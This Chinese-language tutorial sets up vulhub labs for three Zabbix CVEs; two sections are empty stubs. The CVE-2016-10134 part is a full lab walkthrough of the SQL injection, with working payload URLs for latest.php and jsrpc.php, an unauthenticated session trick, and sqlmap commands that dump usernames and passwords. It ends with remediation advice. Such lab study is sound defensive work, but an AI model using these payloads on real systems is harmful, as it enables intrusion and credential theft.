## 介绍

Zabbix 是一款功能强大的开源企业级监控解决方案，旨在监控 IT 基础设施的各个方面，包括网络设备、服务器、云服务、虚拟机和应用程序。
Zabbix 的核心功能

- 多维度监控： 支持 SNMP、IPMI、JMX、Zabbix Agent、无 Agent 监控等多种方式。
- 实时告警： 当系统出现异常（如 CPU 过高、硬盘空间不足）时，通过邮件、微信、钉钉或短信通知管理员。
- 可视化展示： 提供仪表盘（Dashboards）、拓扑图（Maps）和详细的图表。
- 自动发现： 能够自动扫描网络并添加新发现的主机，无需手动一个个录入。

## Zabbix Server Active Proxy Trapper 命令注入漏洞修复绕过（CVE-2020-11800）

> 靶场环境：vulhub/zabbix/CVE-2020-11800

### 靶场搭建

```sh
git clone https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2020-11800
docker compose up -d
```

启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库，启动完成后执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`

### 漏洞原理

### 漏洞复现

### 如何修复


## Zabbix Server Active Proxy Trapper 命令注入漏洞（CVE-2017-2824）

> 靶场环境：vulhub/zabbix/CVE-2017-2824

### 靶场搭建

```sh
git clone https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2017-2824
docker compose up -d
```

启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库，启动完成后执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`

### 漏洞原理

### 漏洞复现

### 如何修复


## Zabbix latest.php SQL注入漏洞（CVE-2016-10134）

> 靶场环境：vulhub/zabbix/CVE-2016-10134

### 靶场搭建

```sh
git clone https://github.com/vulhub/vulhub.git
cd vulhub/zabbix/CVE-2016-10134
docker compose up -d
```

启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库

1. 启动完成后执行`docker compose ps -a`查看容器是否全部成功启动
   
2. 这里发现有一个容器没有启动成功，重新执行`docker compose up -d`
   
   此时靶场启动成功

### 漏洞原理

在Zabbix版本2.2.14和3.0.4之前，`latest.php`文件存在SQL注入漏洞。该漏洞允许远程攻击者通过`toggle_ids`数组参数在latest.php中执行任意SQL命令。该漏洞也可以通过jsrpc.php利用，且无需任何用户身份。
漏洞的根源在于 `latest.php` 接收 `toggle_ids[]` 参数时，直接将其带入了数据库查询语句，而没有进行充分的预编译处理或类型检查。
参考链接：

- https://github.com/vulhub/vulhub/blob/master/zabbix/CVE-2016-10134/README.zh-cn.md
- https://www.cnblogs.com/cute-puli/p/15659959.html

### 漏洞复现

访问`http://your-ip:8080`，用账号`guest`（密码为空）登录游客账户。


#### 通过latest.php触发sql注入

##### 登录guest用户

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

我这里的后16位是：

```
2253121053f01ac9
```

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=填写后16位&favobj=toggle&toggle_open_state=1&toggle_ids[]=报错注入语句`

```
http://192.168.79.111:8080/latest.php?output=ajax&sid=2253121053f01ac9&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0x7e,database()),0)
```


发现成功注入，带出数据库名称zabbix
还可以使用sqlmap去测试，在burp中将刚才的请求保存到文件


还需要对该文件，做一下修改

使用sqlmap，测试sql注入， --batch的意思，自动化默认选项，不再询问用户

```sh
python sqlmap.py -r 你保存请求的文件路径 --batch
```


观察sqlmap的结果，该注入点，存在内联查询，报错注入，时间盲注，接下来进一步利用

1. 获取数据库名 --dbs 获取数据库名

```sh
python sqlmap.py -r ../1.txt --batch --dbs
```



2. 获取zabbix数据库的表名 --tables 获取表名 -D 指定数据库

```sh
python sqlmap.py -r ../1.txt --batch -D zabbix --tables
```



3. 获取zabbix数据库中users表的列名 --columns 获取列名 -T 指定表名

```sh
python sqlmap.py -r ../1.txt --batch -D zabbix -T users --columns
```



4. 获取表中的内容 --dump 获取数据 -C 指定列名

```sh
python sqlmap.py -r ../1.txt --batch -D zabbix -T users -C name,passwd --dump
```


可以看到有一个空用户是空密码，很可能对应的就是guest用户，还有一个Zabbix用户，密码是zabbix

##### 不登录任何用户



```
ee88e5e194957d1a
```

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=填写后16位&favobj=toggle&toggle_open_state=1&toggle_ids[]=报错注入语句`

```
http://192.168.79.111:8080/latest.php?output=ajax&sid=ee88e5e194957d1a&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0x7e,version()),0)
```


为什么不登录用户也可以呢？

1. Zabbix 在用户访问登录页面时，就会自动在服务端创建一个会话并向浏览器发放一个 `zbx_sessionid`。即使此时你尚未输入用户名密码，这个 Session ID 已经是一个“合法”的 ID。
2. 在受影响的 Zabbix 版本中，`latest.php` 等部分页面在处理带有 `output=ajax` 的请求时，只校验了 `sid`（即 `zbx_sessionid`）是否在请求参数中，但没有校验这个 `sid` 是否已经通过了身份认证。    

#### 通过jsrpc.php触发sql注入

这个漏洞还能通过jsrpc.php触发，且无需登录，只需要访问`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=报错注入sql语句`

```
http://192.168.79.111:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,database()),0)
```


也可以尝试去使用sqlmap去自动化测试，同上这里不再详细演示
--flush-session 清除缓存

```sh
python sqlmap.py -u "http://192.168.79.111:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --flush-session --batch
```


在这个页面，sqlmap还测出了布尔盲注，如果想学习sqlmap是怎么注入的可以加上-v 3
--tech B 指定注入方式为布尔盲注，-v 3 显示所有的payload（攻击载荷）

```sh
python sqlmap.py -u "http://192.168.79.111:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=*" --batch --tech B -v 3 --dbs
```



看不懂也没关系，可以借助ai进行理解，学习，ai肯定能看懂


### 如何修复

Zabbix 官方在后续版本中通过以下方式修复了该问题：

- 强化输入校验： 使用 `zbx_ctype_digit` 等函数强制检查 `toggle_ids` 必须为数字。
- 改进数据库抽象层： 确保所有进入 `IN` 查询的数组元素都经过严格的转义或预编译处理。
  我们能做的就是立即升级 Zabbix 至安全版本。